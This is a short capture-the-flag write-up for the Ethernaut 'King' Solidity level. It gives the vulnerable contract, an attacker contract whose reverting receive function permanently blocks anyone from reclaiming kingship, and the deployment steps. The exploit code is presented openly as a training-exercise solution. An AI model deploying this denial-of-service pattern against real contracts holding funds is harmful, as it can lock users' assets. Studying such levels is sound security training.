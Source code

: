 [9 - King](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)

Solution: 
* we first need to take kingship of the contract, and the king should be a contract with a receive function that reverts
* that way, noone can ever claim kingship back, since the payable(king).transfer(msg.value) will always revert
```
fromWei(await contract.prize()); // shows us current prize is 0.001 ETH
```
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}

contract KingSolution {
  address payable private constant kingAddress = payable(0xf9E3E068c276d261B511a8fa0A7667fe12387bde);

  receive() external payable {
    revert();
  }

  function solve() external payable {
    (bool sent, ) = kingAddress.call{value: msg.value}("");
    require(sent, "Failed to send msg.value.");
  }
}
```
From Remix, deploy KingSolution, and call solve with 0.002 ETH, so KingSolution becomes King.
await contract._king(); // to check king switched

```

```
